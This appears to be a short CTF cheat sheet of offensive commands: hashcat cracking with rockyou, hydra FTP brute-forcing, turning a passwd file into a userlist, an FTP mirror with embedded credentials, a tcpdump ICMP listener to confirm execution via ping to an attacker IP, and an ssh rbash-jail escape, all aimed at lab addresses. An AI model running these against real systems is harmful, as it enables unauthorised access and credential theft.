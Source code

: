# Miscellaneous

hashcat -a 0 -m 500 hash /root/Downloads/rockyou.txt --force

scp important.txt ubuntu@192.168.1.30:/home/ubuntu/transferred.txt

wget -m ftp://ftpuser:givemefiles777@10.10.94.48

python -m pyftpdlib 21\
\
hydra -e nsr -l elly ftp://192.168.249.148\


Turn passwd file into userlist to use in bruteforce:\
cut -d ":" -f 1 passwd > userlist\


{% embed url="https://github.com/PinkDraconian/CTF-bash-tools" %}

### TCPDUMP LISTENER

Start a tcpdump listener on your local machine.

**If using your own machine with the VPN connection, use:**

* `sudo tcpdump ip proto \\icmp -i tun0`

**If using the Ethernet, use:**

* `sudo tcpdump ip proto \\icmp -i eth0`

This starts a tcpdump listener, specifically listening for ICMP traffic, which pings operate on.

**ping \<ATTACKER IP> -c 4**

****

If we know the  ssh credentials of the user who is part of rbash shell, then you can use the following command along ssh to break the jail and bypass the rbash by accessing proper bash shell.

`ssh seppuku@192.168.53.90 -t "bash --noprofile"`


